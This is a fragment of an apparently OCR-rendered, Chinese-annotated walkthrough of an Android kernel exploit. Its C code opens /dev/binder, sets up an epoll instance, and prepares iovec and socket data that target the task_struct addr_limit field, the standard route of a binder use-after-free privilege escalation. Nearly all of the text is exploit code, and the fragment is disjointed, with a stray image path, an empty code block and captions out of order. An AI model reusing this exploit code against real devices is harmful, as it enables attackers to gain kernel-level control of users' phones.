 ```c
```

申请一个socket,并向socket中填充一个垃圾数据

```c
   m_binder_fd = open("/dev/binder",O_RDONLY);

    if(m_binder_fd < 0){
        printf("[-] can not open /dev/binder\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] open /dev/binder successfully m_binder_fd= %d \n",m_binder_fd);
    }
    
    printf("[+] start opening epollevent\n");

    m_epoll_fd = epoll_create(1);

    if(m_epoll_fd < 0){
        printf("[-] can not create eventpoll\n");
        exit(EXIT_FAILURE);
    }else{
        printf("[+] create eventpoll successfully m_epoll_fd = %d \n",m_epoll_fd);
    }

    printf("[+] Setting up socket \n");
```

申请binder的fd eventpoll的fd

```c
    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = 1;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *)0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = 0x8 + 0x8 + 0x8 +0x8;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_base = (void *)0x42424242;
    iovecStack[IOVEC_WQ_INDEX + 2].iov_len = 0x8;
    static uint64_t FinalSocketData[] = {
        0x1,
        0x41414141,
        0x8+0x8+0x8+0x8,
        (uint64_t) ((uint8_t *) m_task_struct +
                        OFFSET_TASK_STRUCT_ADDR_LIMIT),//addr_limit的地址
        0xfffffffffffffffe
    };
     

    message.msg_iov = iovecStack;
    message.msg_iovlen = IOVEC_COUNT;

    printf("[+] linking eppoll_entry->wait.entry to binder_thread->wait.head \n");
    epoll_ctl(m_epoll_fd,EPOLL_CTL_ADD,m_binder_fd, &m_epoll_event);
```
